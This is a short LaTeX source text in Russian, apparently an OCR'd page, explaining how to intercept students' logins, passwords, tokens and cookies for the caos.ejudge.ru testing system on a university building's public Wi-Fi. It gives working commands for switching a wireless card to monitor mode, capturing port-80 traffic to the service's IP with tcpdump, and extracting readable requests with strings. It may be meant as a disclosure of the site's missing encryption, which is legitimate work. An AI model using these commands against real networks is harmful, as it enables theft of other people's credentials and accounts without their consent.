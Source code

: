 \documentclass{article}
\begin{document}
	\fontsize{10}{10}\selectfont
	
Поскольку caos.ejudge.ru работает по HTTP без SSL-шифрования, а в корпусе ФКН большинство студентов пользуются публичным Wi-Fi, переключив сетевую карту в режим мониторигна:
\begin{verbatim}
# service network-manager stop
# ifconfig wlp3s0 down && iwconfig wlp3s0 mode monitor && ifconfig wlp3s0 up
\end{verbatim}
и запустив tcpdump:
\begin{verbatim}
# tcpdump -i wlp3s0 -l -s0 -w rawdump tcp dst port 80 and host 89.108.125.173
\end{verbatim}
можно легко перехватить логины, пароли, токены и cookie студентов, заходящих в тестирующую систему через Wi-Fi в учебном корпусе. 

После частичного удаления бинарного мусора из дампа получается текстовый файл, содержащий перехваченные HTTP-запросы (см. пример в файле):
\begin{verbatim}
$ cat rawdump | strings > dump
$ cat dump
\end{verbatim}
\fontsize{8}{8}\selectfont
\end{document}
